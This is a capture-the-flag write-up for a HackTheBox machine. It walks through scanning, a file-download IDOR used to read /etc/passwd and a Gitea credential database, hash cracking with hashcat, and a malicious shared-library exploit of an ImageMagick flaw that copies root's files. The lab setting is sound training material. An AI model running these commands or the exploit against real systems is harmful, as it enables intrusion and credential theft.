










Let's start with a fast scan, i normally use rustscan to gather the open ports faster:
```sh
rustscan --top -a <victim_ip> | tee initialScan.txt
```


once it's finished, i copy the open ports and scan them with nmap looking out for the versions of the services hosted in those ports
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```
It looks like the host is using Ubuntu, to get a better idea of what version of Ubuntu the host has, we can copy the version of the service and search it with launchpad.

Now, the scan shows that the machine is hosting a web server (Apache), so we can look for technologies that the website uses with whatweb
```sh
whatweb http://<ip>
```

And we get this error, it's looking for a domain named titanic.htb but cannot find the address that the domains points to, we can add the ip and it's domain to the /etc/hosts file to solve this error, you can use your prefered editor, i use nvim btw 🤓
```sh
sudo nvim /etc/hosts
```
At this point, i like to start navigating the website and using burpsuite as a proxy to intercept all the traffic and have more understanding of the page.

By submiting the form to book a trip, it saves the info we submitted in a json format and redirects the browser to a route that downloads the json file 


now,  what if we can change the URL to download any file we want? well that's known as Insecure Direct Object Reference (IDOR) which we can use to look for sensitive files like /etc/passwd that shows the users info

or /etc/hosts, where it seems that the host has another domain we didn't know

add that to your /etc/hosts file and let's navigate to that domain in the browser.
The domain hosts gitea to manage repos ***like github***, well that's a gold mine init? now we can look for the repo that has the server code, the docker config for gitea and mysql
### User Flag
---
The gitea docker-compose file says that the gitea data is in this path /home/developer/gitea/data:/data  
Gitea has a database with the info, usernames and passwords of the users using gitea in this path: ***/home/developer/gitea/data/gitea/gitea.db***

Download that file, convert the gitea password hashes to a format that hashcat can crack, you can use this script from ippsec in python
https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271

and then crack it with hashcat
```bash
hashcat -m 10900 <hash> <wordlist> --user --show
```
login with ssh and you got user flag!!

```sh
cat user.txt
```

---
### Root Flag
Find writeable directories
```bash
find /opt -writable -type d 2>/dev/null
```
in the /opt/scripts/ there's a script that uses a vulnerable version of ImageMagick
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
we can create a shared library to exploit this vulnerability in the writeable directory with this command to extract the root flag
```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

and you got the root flag!!
```sh
cat root.txt
```

---
### Conclusion
This machine covers topics like IDOR, file disclosure, looking for CVEs and password cracking.

**Hope you enjoy it and Happy Hacking!**